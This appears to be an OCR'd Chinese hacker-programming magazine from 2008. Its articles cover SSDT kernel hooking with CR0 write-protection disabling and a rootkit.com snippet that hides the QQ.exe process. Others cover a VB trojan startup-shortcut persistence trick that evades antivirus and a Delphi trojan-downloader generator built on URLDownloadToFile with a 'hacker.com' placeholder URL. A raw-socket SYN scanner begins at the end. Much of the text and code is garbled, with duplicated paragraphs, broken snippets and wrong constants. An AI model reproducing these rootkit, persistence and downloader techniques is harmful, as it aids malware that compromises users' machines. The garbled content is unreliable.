

# PROGRAMMING ANALYSIS

```
hHookDll=LoadLibrary("hHook.dll"); // 加载DLL
if(hHookDll!=0)
begin
    pnHookFunction=GetProcAddress(hHookDll, "hHookFunction"); // 获取函数地址
    if(fpHookFunction!=0)
    begin
        // 转换指针
        h_Hook=SetWindowsHookEx(3,lpHookFunction,hHookDll,0);
    end
end
end;
```

```pascal
end
else
begin
    if(hHook!=0)
        // 卸载钩子
        UnhookWindowsHookEx(hHook);
    end;
end;

procedure TForm1.ButtonClick(Sender:TObject);
begin
    Timer1.Enabled:=True;
end;
end;
```

适合读者：编程爱好者

前置知识：VC



# 详解挂钩

文 / 石油大学学院 小萧鹏

最近大家对Ring0的研究正如此火如荼地投入锐锐越发活跃，朋友对SDT的需求都是内部的。看来可能是趋势了，但希望不在处多写一篇文章，将详细讲解如何用的SDT，希望大家都能有更好的收获发表出来。


大家都听过坦克吧？应该对SDT记忆记忆。但是SDT是什么？怎么用的？SDT的全称是Service Descriptor Table，系统表描述符，它的本质就是把Ring0的Win32 API Hook的内核地址挂起来，通过SDT表对地址进行查询地址范围内的内存，使得应用程序在调用系统服务时，通过调用`ntdll`中的`EAX`中请求的系统标识符或系统数据，从`EDX`中加载用户模块中查找函数地址，系统底层程序对函数参数进行验证，将它们写入SDT表中的服务地址，最后在调用SDT中找到该服务标识符的地址执行函数。

举个例子，当我们要调用`OpenProcess`时，函数在内核中的形式所示！此程序的处理流程进入Ring0之后，系统会根据SDT表查找标识符(exe)



图1

在SDT这个服务表描述符表中查找对应的表项，如何找到该表项是系统服务函数`OpenProcess`的真实地址。之，系统会根据该表地址对应的地址系统服务函数，并将其返回的`ntdll.dll`的`OpenProcess`，图2中的所示即为系统函数描述符中的表项，即“`kernel_exe`为



| | ring3 |
|---|---|
| (int EAX) | |
| | `ntdll.exe` |
|---|---|
| (0x007A) Address 1 | `ntdll:NtConnectProcess` |
| (0x007A) Address 12 | `ntdll:NtOpenProcess` |

图2

# PROGRAMMING ANALYSIS

Windows系统内内核进程(`ntoskrnl.exe`)是NT Kernel的内核。它包含了对应的多个系统内核函数，`ntoskrnl.exe`位于`Windows\System32`目录下。

这说明，SDT中的某些函数不会被`ntoskrnl.exe`中的函数调用，而是内核的导出或控制驱动程序可能会修改SDT中的某些点，以达到它的目的。

这里还要强调一个概念：`KeServiceDescriptorTable`，它是导出表的，列表中包含一个指针，指向SDT中由内核实现的系统内核函数的地址，我们可以通过它修改SDT在内核中的结构。

SDT的结构定义如下：

```c
typedef struct _SSDT {
    PVOID ServiceTableBase;
    PVOID ServiceLimitBase;
    ULONG ServiceCount;
    ULONG ServiceLimit;
    PVOID ParamTable;
} SSDT,*PSSDT;
```

有了以上知识，我们就可以修改SDT来实现我们想要的效果了，这里有一种隐藏的方法可以进行，我们还有一个需要的方法来解决问题，要修改SDT，首先要表是可写的，在Windows XP以后这些SDT都是可写的。我总结了这三个方法修改内核内存保护，对于以后的调试来说是非常有用的。

## 1) 修改导出表（要重点）

```registry
HKLM\System\CurrentControlSet\Control\SessionManager\KernelMemory\EnforceWriteProtection=0
```

其中第二个方法没有被尝试过，这里只是列作为一种方法给大家参考。

## 2) 修改寄存器控制

将`CR0`位设置为2，代码如下：

```asm
push eax
mov eax,cr0
and eax,0xFFFFFFFE
mov cr0,eax
pop
```

如果无效，可以使用以下代码：

```asm
push eax
mov eax,cr0
or eax,0xFFFFFFE0
mov cr0,eax
pop
```



```asm
or eax, 0xFFFFFFFE
mov cr0,eax
pop eax
```

这个方法希望以后在调试时尽量少使用，因为对内核会带来一些问题。

## 3) 利用描述表、描述一个块可写。本人的这种方法有什么好处呢，在内核中，其中是`MDL`在`nttdk.h`的定义。

```c
typedef struct _MDL {
    PVOID MDLMappingAddress;
    ULONG MDLLength;
    ULONG MDLDescriptorSize;
    struct _PROCESS *Process;
    PVOID MappedSystemVa;
    PVOID Start;
    ULONG ByteCount;
    ULONG PageCount;
    ULONG MDLFlags;
    ULONG MDLTag;
    struct _MDL *NextNext;
} MDL,*PMDL;
```

```c
#define MDL_MAPPED_TO_VA 0001
#define MDL_PARTIAL_PAGES 0002
#define MDL_SOURCE_IS_NONPAGED 0004
#define MDL_ALLOCATED_SIZE 0008
#define MDL_PARTIAL 0010
#define MDL_WRITE_PROTECTION 0020
#define MDL_PARENT_SYSTEM_VA 0100
#define MDL_FREE_EXTRA_PAGES 0200
#define MDL_10_SPACE 0400
#define MDL_NEVER_HEADER 0800
#define MDL_CAN_FREE_ALL 1000
#define MDL_ALLOCATED_MUST 2000
```

`MDL`描述了内核内存的起始地址、所有者、长度和标志。

这是修改SDT的方法，如下：首先调用第一个函数`KeServiceDescriptor`，该类型为`KeServiceDescriptor`的变量，使用`MmMapIoKeServiceDescriptor`的地址和长度，我们将得到`MDL`中所描述的地址与大小，然后从非分页内存中映射内核。我们将使用`MDL_MAPPED_TO_VA`进行操作，方便写入一个内核内存，就可以用`MmMappedPageAddress`来映射内核中的内存了。

```c
#pragma pack(push,1)
typedef struct ServiceDescriptor {
    unsigned int ServiceTableBase; // KeServiceDescriptor表基础地址
    unsigned int ServiceCounterBase;
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
    SSDT_Entry;
};
#pragma pack(pop)

__declspec(dllimport) SSDT_Entry* pKeServiceDescriptorTable;
PMDL g_SystemServiceTable;
VOID *pServiceTable;

g_SystemServiceTable = MmCreateSystemTable(KeServiceDescriptorTable->ServiceTableBase,
KeServiceDescriptorTable->NumberOfEntries*4);
if(g_SystemServiceTable)
    return STATUS_SUCCESS;
```

对于第二个字符取出就能得到索引的符号了，有以上的准备工作，我们可以抓住SSDT。为了方便，这里给出了几个宏定义。

```c
// SSDT 基础
#define SYSTEMSERVICE(function) KeServiceDescriptorTable->ServiceTableBase[(PULONG)(PUCHAR)function]
// 定义SSDT中的钩函数与原函数的链结构
#define HOOK_SysCall(Function, _Hook_Original) (Original)(VOID*)InterlockedExchange((PLONG)&MappedSystemService(SYSCALL_Index))
// 取消钩函数
#define UNHOOK_SysCall(Function, _Hook_Original)
```

现在我们可以试试拦截函数了。这是通过`ZwQuerySystemInformation`获取索引的过程，然后通过系统信息设置为5，`ZwQuerySystemInformation`类如下：

```c
NTSTATUS ZwQuerySystemInformation(
    IN DWORD SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength
);
```

有了这里了吗？我总结一下，如果想要拦截函数，我们可以抓住SSDT的内容，为了保护旧的方法，然后用自己的`ZwQuerySystemInformation`方法，通过某些字符来修改进程，再使用上层的交换函数来替换自己的钩函数。这里我们要说明在Windows中，`ZwQuerySystemInformation`索引是0x9，只需要把`DWORD`类型的地址偏移04处的值保存在全局变量，然后将其替换一个新的钩函数的地址，就替换了。

```c
OldFunction = KeServiceDescriptorTable->ServiceTableBase;
ServiceTableBase[0x9] = NewFunction;
```

在其他系统中，这个可能一定，所以必须找到通用的方法来获取索引。在Undocumented中一个方法可以解决这个问题，从而方便进行调试。`ZwQuerySystemInformation`中包含索引吗？

# PROGRAMMING ANALYSIS

下面给出一个完整的代码，出自`rootkit.com`，这里详细介绍了如何下载木马的操作，完整的代码来表示。

```c
InformationClass = 5;
// 遍历系统进程，寻找“QQ”进程
struct SYSTEM_PROCESSES *SystemInformation;
struct SYSTEM_PROCESSES *curr = NULL;
while(curr) {
    // 获取当前进程
    if(stricmp(curr->ProcessName, "QQ.exe") == 0) {
        // 获取时间
        if(prev) {
            // 移除该项，从表中删除
            prev->NextEntry = curr->NextEntry;
        } else {
            // 如果从根删除
            root->NextEntry = curr->NextEntry;
        }
        break;
    }
    prev = curr;
    curr = curr->NextEntry;
}
```



在此处我们就加载了SDT隐藏在进程中，看着这篇文章后会有很大帮助。现在对内核研究的人来说越来越多了，希望感兴趣的人加入我们当中。

```vb
Option Explicit
Const WhHide = 0
Const WhNormal = 1
Const WhMinimized = 2
Const WhMaximized = 3
Const WhNormal = 4
Const WhMinimizedFocus = 6
Const DESKTOP = 8
Const PROGRAMS = "Programs"
Const STARTMENU = "StartMenu"
Const STARTUP = "Startup"
Dim ExPathName As String, sstartGroup As String

Private Sub cmdAbout_Click()
    Form.Show
End Sub

Sub Form_Load()
    Dim sQQPath As String
    sQQPath = GetRegistryString(HKEY_LOCAL_MACHINE,"Software\QQ")
    If sQQPath <> "" Then
        MsgBox "这里没有注册项，可能安装错误。"
        ExPathName = sQQPath & "QQ.exe"
    End If
End Sub

With Shortcut
    TargetPath = sPath & "&"
    WorkingDirectory = ":" ' 工作目录
    Hotkey = "Ctrl+Alt+F1" ' 快捷键
    Style = WhNormal ' 窗口样式
    IconLocation = PathName ' 图标位置
    Description = "QQ启动"
    Save = True ' 保存设置
End With
cmdOpenStartup.Enabled = True
Exit Sub
vbErrorHandler:
    MsgBox Err.Description, "Create Shortcut"
End Sub

Private Sub cmdOpenStartup_Click()
    Shell "explorer.exe " & Chr(34) & sstartGroup & Chr(34), vbNormal
End Sub

Private Function GetString(Hkey As Long, strValue As String, Optional Default="") As String
    Dim keyname As String
    Dim dataType As Long
    Dim i As Long, Result As String
    Dim iDataSize As Long
    Dim intZero As Long
    r = RegQueryValueEx(Hkey, strValue, dataType, Result, iDataSize, intZero)
    If VType = 2 Then
        GetString = Result
    Else
        If sQQPath <> "" Then
            GetString = Default
        End If
    End If
    ' Wait, 此处逻辑似乎重复，根据OCR修正：
    ByVal result, iDataSize As Long
    If r = ERROR_SUCCESS Then
        If intZero = 0 Then
            GetString = Left(result, intZero - 1)
        Else
            GetString = result
        End If
    End If
End Function

Private Sub cmdModify_Click()
    Dim oShell As Object
    Dim oShortcut As Object
    Dim fQQPath As String
    Dim TargetPath As String
    ' 快捷方式文件路径
    Dim 修改许多文件路径
    On Error GoTo vbErrorHandler
    Set oShell = NewObject("WScript.Shell")
    fQQPath = oShell.SpecialFolders("Startup") & "\QQ.lnk"
    '创建QQ启动快捷方式
    Set oShortcut = oShell.CreateShortcut(fQQPath)
    '快捷方式的链接
    TargetPath = sPath & "&"
    ' 获取QQ数据
    WargetPath = oShell.ExpandEnvironmentStrings(targetPath)
```

# PROGRAMMING ANALYSIS

| Property Arguments | 描述 |
|---|---|
| Property Arguments | 属性，用于指定 |
| Description String | 描述字符串 |
| FullName String | 完整路径 |
| HotKey String | 快捷键 |
| IconLocation String | 图标位置 |
| TargetPath String | 执行文件文件名 |



# 编程爱好者，大大战

# 启动，VB

启动方式有很多形式，有注册的、有文件的，但是逃过毒软件，柯界，在启动项时发现金山就是直接在自动创建快捷方式，只有一线。把QQ启动方式真实交给哥们，但不改变结构，并在木马后自动重启，久不觉，我们的木马已经用VB来实现这个过程。

在其他系统中，这个可能一定，所以必须找到通用的方法来获取索引。在Undocumented中一个方法可以解决这个问题，从而方便进行调试。`ZwQuerySystemInformation`中包含索引吗？


如果你知道直接更改自动启动的快捷方式方法，可以修改界面上的，不影响别人，阿哥，对于你如何在程序中自动注册QQ，请阅读，不用我说了吧！黑这过的内容的介绍已经多了，不会的看一看下面的文章，文中的代码在`Windows XP+VB6`中运行时，可能会遇到问题或者没有问题，欢迎来到家里留言或在博客19260625和我讨论。

# 编程解析：机器学习

适合读者 编程爱好者

前置知识 Delphi

学习机器学习技术我们大家都不怕吧？我也一样，在学习机器学习时，其实我只是个小数学爱好者。呵，看来看看了那些高手的源码代码是好长长啊！我已经研究了一种新方法，你想知道吗？那就这就看吧。

在开始之前，我们先来了解一遍服务器的原理：

- 1. 把原始文件转换为资源文件
- 2. 在程序中输入数据文件并使用用户的配置信息
- 3. 检查修改数据并写入配置
- 4. 生成服务器端。

接下来，我们来一步一步的实现原理。

首先我们要准备好服务器端资源文件，我们就用其中一个下载器来例说明。源码如下：

```pascal
program downloads
var
  SysUtils,urlstr,windows:string;
function DownloadToFile(Source, Destination: string): Boolean
begin
  try
    Result := URLDownloadToFile(nil, Source, PChar(Destination), 0, nil) = 0;
  except
    Result := False;
  end;
end;
var
  file:textFile;
  astring:string;
begin
  downloadfile(file, 'windows\system32\atlog.txt');
  assignfile(file, 'windows\system32\atlog.txt');
  reset(file);
  while not eof(file) do
    readln(a, 'windows\system32\atlog.txt');
    c:='windows\system32\atlog.txt';
    writefile(c,a,hide);
  end;
end;
```

这是一个支持多文件的下载器服务端，首先是准备用户的配置文件，然后根据配置文件的数据下载到其他文件。原理简单来说，我就不多说了，大家要懂就懂吧。这里还有服务器的`s='http://hacker.com_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx!`，我们我们是配置文件的地址位，为什么要这样写呢？因为我们在后面要有定位的，才能修改它。我写了`so`，为`s`的数据个数不需要下载最大的资源，所以要以免避免了重复下载。我们把这个下载器`down_exe`，之后来找地址。

使用`down_exe2`来下载，然后搜索ASCII字符，找到它，就可以我们在程序的资源列表里找到一个“串”，看着底部的地址，是“54012”，这个地址就写在这里了。

接下来我们用`down_exe`转换为资源文件，创建一个文件名为“`RCDATA.exe`”的把它的保存格式为`rcdata`，从`down_exe`开始，从Delphi的项目中来到资源，然后创建一个MDG窗口，进入登录界面，编译`Bcc32.exe`，n这样我们就得到了一个下载文件`下载文件.docx`

现在的，所有的资源都准备好了，我们就可以写一个下载按钮。

新建一个VCL程序，运行一个以后，我们就可以全局变量`offset_url:=54012`这是干什么的呢？就是为了我们刚才才做的位置偏移，之后要成功的加入资源文件，就要在`{$SR}`下面加入`{$download.res`我们就可以在程序中加入资源文件。

接下来我们看看普通下载生成服务器的详细代码如下：

```pascal
procedure Form1.Button1Click(Sender: TObject);
var
  url:string;
  WriteFile,zustring:PChar;
  ziyumwezi:HRSRC;
  ziyumwezi:ListBox.WriteOnly;
  shajujilibuj:THandle;
  shibhengstring:THandle;
  url:=trim(Edit1.Text);
if url <> '' then
begin
  ziyumwezi:=FindResource(Instance,'downloadman','RCDATA');/下载将字符串转为资源标识
  ziyumwezi:=LoadResource(Instance,ziyumwezi;
```


www.hacker.com

《编程解析》2008年8月26日 上刊 上海

# PROGRAMMING ANALYSE

```pascal
// 数据大小

shujuchulijiu = LoadResource(Instance);

ziyuanshui;
```

中的URL就是我们用户输入的信息了，buffer是用来装的x x x ......的“50”是简单前面的“x”个数，这次可以懂了吗？是不是简单用流量来就没容易吗？看完吧，还是不是我有一个想写个已经写过的函数？那我们就运行吧！

```pascal
// 数据处理序列

shenqingsijiu = CreateFile("server.txt",

GENERIC_WRITE, FILE_SHARE_WRITE, nil,

CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);

// 创建文件

shenqingsijiu, zyuanshulijiu;

BytesWrite(buffer, nil);

Sleep(100);
```

最后再给它提供一个完整的函数参数吧。

```pascal
// 设置关键信息

WriteFile(PChar(StringChar(url)), 50-Length(url)));

unit Unit;

interface

Windows, SysUtils, Classes, Graphics,

Controls, Dialogs, StdCtrls;

const

offset_integer=5402;

type

TForm=class(TForm)

Edit: TEdit;

Button: TButton;

Label: TLabel;

procedure restream;

procedure ButtonClick(Sender: TObject);

private declarations;

// 关闭资源

CloseHandle(shenqingsijiu); //关闭资源。

public

  { TForm3 declarations }

end;

var

  Form3: TForm3;

implementation

{$R *.dfm}

procedure TForm3.restream;

 TForm3.ButtonClick(Sender: TObject);

// 显示输入参数

showmessage("输入参数到这里!");
```

怎么样的，看到头大了没？好了，了，就给大家介绍一种新的方法，简单简单的。

第一步 将资源保存到内存中。要获取资源，我们先要创建一个自己，如下：

```pascal
procedure restream;
begin
  Res: TResourceStream;
  s=MemoryStream.Create;
  Res=TResourceStream.Create(Instance,'document',
  RT_DATA); // 读取资源文件
  Res.SaveToStream(s);
  Res.Free;
end;
```

`RES`是一个`TResourceStream`(资源文件)，`S`是一个`MemoryStream`(内存)，这里这段代码的功能是将资源从文件读取后再保存到内存中。

第二步 用检查来？从内存的地方读取并写入的配置信息。代码如下。

```pascal
procedure TForm3.ButtonClick(Sender: TObject);
var
  buffer:char;
  url:string;
begin
  url:=trim(Edit1.Text);
  buffer:=pchar(stringof(0,50-length(url)));
  restream;
  s.Seek(offset_integer,from);
  WriteFile(buffer,50);
  s.SaveToFile("server.txt");
  s.Free;
end;
// 读取用户的信息
// 过滤字符串末尾
// 将URL末尾的“空格”去掉
// 从内存的地方读取并写入
// 写入文件
// 保存文件，完全结束
```



# PROGRAMMING ANALYSIS

适合初学者 前置 C#

## C# 网络详解

## C# 网络编程

## C# 网络扫描

TCP每次扫描必须先连接，连接后开始要图1所示的扫描器基本的扫描器由于连接需要等待来完成握手，无论是隐蔽性来说，比连接扫描相当大的。




SYN扫描的最初初衷是向目标行的DoS攻击方式是发送TCP包，第一次扫描的请求，让目标主机通过扫描标识来判断扫描器的状态。



主扫描->连接请求->SYN->SYN_ACK->确认



SYN扫描的最初初衷是向目标行的DoS攻击方式是发送TCP包，第一次扫描的请求，让目标主机通过扫描标识来判断扫描器的状态。

在进入主函数之前，首先定义几个数据结构，例如`sockraw`用于接收响应返回错误码。

```c
sockraw = socket(AF_INET, SOCK_RAW, IPPROTO_IP);

socklisten = socket(AF_INET, SOCK_RAW, IPPROTO_TCP);
```

